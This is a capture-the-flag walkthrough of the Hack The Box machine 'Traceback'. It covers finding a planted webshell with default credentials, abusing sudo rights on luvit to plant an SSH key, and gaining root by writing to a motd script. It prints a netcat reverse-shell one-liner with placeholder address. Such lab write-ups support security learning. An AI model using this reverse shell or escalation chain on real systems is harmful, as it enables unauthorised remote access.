

Introduction:
Traceback is a easy linux machine on Hack The Box that involves a little OSINT and lua scripting to get User, and some process analysis to get Root.
Its ip is 10.10.10.181 and I will add it to /etc/hosts as traceback.htb.
Nmap:
Let's start with a nmap scan on our target:
Analysing our nmap result, we got ssh on port 22 and http on port 80.
Judging from the difficulty rating of this box, we are probably going to find some sort of credentials from port 80 that we can use to SSH into the box.
Let's start our web enumeration.
Web Enumeration:
Going to http://traceback.htb, we see a rather unique page:
I looked at the page source and found something interesting:
There is a comment that says "some of the best web shells that you might need".
This comment is probably a hint by the maker of this box Xh4H, so let's bring it to Google.
After some searching, we found Xh4H's github page that contained a list of web shells:
I don't really have any idea on what to do next, so I just manually tried all the names of the webshells.
Fortunately, I managed to find the webshell that Xh4H had left.
The webshell is smevk.php.
Navigating to http://traceback.htb/smevk.php, we are greeted by this login page:
Analysing smevk.php, we can see that the default credentials are admin:admin.
I tried to login with the credentials and succeeded.
We are now in the webshell.
Getting User:
SmEvK Webshell:
After some enumeration, I found two users on this machine: webadmin and sysadmin.
We are currently webadmin on the webshell.
Unfortunately, we have to become sysadmin to be able to read user.txt, so let's try to do that.
Let's check our sudo priviledges with the command sudo -l:
We see that the user webadmin is able to run luvit as sysadmin.
Fun Fact: luvit was initially in the webadmin directory, but got moved to /home/sysadmin because people kept deleting it.
luvit:
Google tells us that luvit is used to run lua scripts.
Since we are able to run luvit as sysadmin, it means that we can run malicious lua scripts as sysadmin and potentially get a shell as sysadmin.
Let's figure out how to do that.
script.lua:
After looking at some files in the webadmin directory, I realised that we can write to the file /home/sysadmin/.ssh/authorized_keys.
I generated my SSH keys with ssh-keygen and added it to /home/sysadmin/.ssh/authorized_keys with test.lua.
Let's execute this script with the command sudo -u sysadmin /home/sysadmin/luvit test.lua.
Now we can SSH in as sysadmin!
Getting Root:
SSH:

Our script worked. We are now sysadmin and can read user.txt.
Basic enumeration did not give me desired results, and I was stuck here for a while.
As I browsed through the forum for hints, I found out that there exists a tool called pspy that can be used to monitor active linux processes.
I cloned the tool and ran it the target machine.
pspy results:
Here we can see that root(UID=0) is constantly resetting the contents of the files in /etc/update-motd.d back to their original state.
Out of curiosity, I went to look at the contents of /etc/update-motd.d.
/etc/update-motd.d:
Let's go ahead and check the 00-header file.
00-header:
We can see that the file is able to execute the echo command as root and print out 'Welcome to Xh4H land'.
Seems familiar?
This message is exactly what we saw when we SSHed in as sysadmin.
We can therefore deduce that this file will be executed everytime a user SSH into the machine.
Now we just have to write a malicious command to the file and log in via SSH again for it to be executed.
command:
I set up a netcat listener and wrote this command for a reverse shell: echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc #yourIP #yourPORT >/tmp/f' >> 00-header.
This time, SSH did not give us a shell, but when we check our listener...
WE ARE ROOT!
Adding on:
For more fun, I wrote a python script that will give me root with a click.
script results:
xD
Conclusion:
Traceback is a fairly simple yet fun and unique box. I enjoyed the part where I had to SSH into the machine to trigger the payload before it got reset.
I learnt about lua scripting and the use of pspy to monitor active processes on linux.
That's all I have for Traceback, and I hope to see you the next time.